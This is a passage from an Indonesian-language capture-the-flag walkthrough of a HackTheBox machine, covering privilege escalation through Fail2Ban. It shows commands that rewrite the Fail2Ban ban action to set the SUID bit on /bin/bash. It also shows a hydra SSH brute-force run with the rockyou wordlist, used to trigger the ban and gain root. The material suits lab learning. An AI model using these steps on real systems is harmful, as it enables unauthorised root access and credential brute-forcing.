 ```terminal
#          command is executed with Fail2Ban user rights.
# Tags:    See jail.conf(5) man page
# Values:  CMD
#
actionban = <iptables> -I f2b-<name> 1 -s <ip> -j <blocktype>

# Option:  actionunban
# Notes.:  command executed when unbanning an IP. Take care that the
#          command is executed with Fail2Ban user rights.
# Tags:    See jail.conf(5) man page
# Values:  CMD
#
actionunban = <iptables> -D f2b-<name> -s <ip> -j <blocktype>

[Init]
```

#### Kita bisa memodifikasi actionban, kita tidak bisa memodifikasinya tapi kita bisa menghapusnya dan membuat yang baru jadi kita akan melakukan hal berikut untuk memodifikasi "actionban"

```terminal
michael@trick:~$ sed "s/<iptables> -I f2b-<name> 1 -s <ip> -j <blocktype>/chmod u+s \/bin\/bash/g" /etc/fail2ban/action.d/iptables-multiport.conf > config.conf
michael@trick:~$ rm -f /etc/fail2ban/action.d/iptables-multiport.conf
michael@trick:~$ mv config.conf /etc/fail2ban/action.d/iptables-multiport.conf
michael@trick:~$
```

#### Kami akan memulai kembali layanan dan menerapkan kekerasan dengan hydra untuk memaksa larangan
```terminal
michael@trick:~$ sudo /etc/init.d/fail2ban restart
[ ok ] Restarting fail2ban (via systemctl): fail2ban.service.
michael@trick:~$
```
```terminal
❯ hydra 10.10.11.166 ssh -l root -P /usr/share/wordlists/rockyou.txt
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-08-21 22:51:05
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.10.11.166:22/
```
#### Setelah 75 hingga 100 detik bash akan menjadi suid dan kita menjadi root
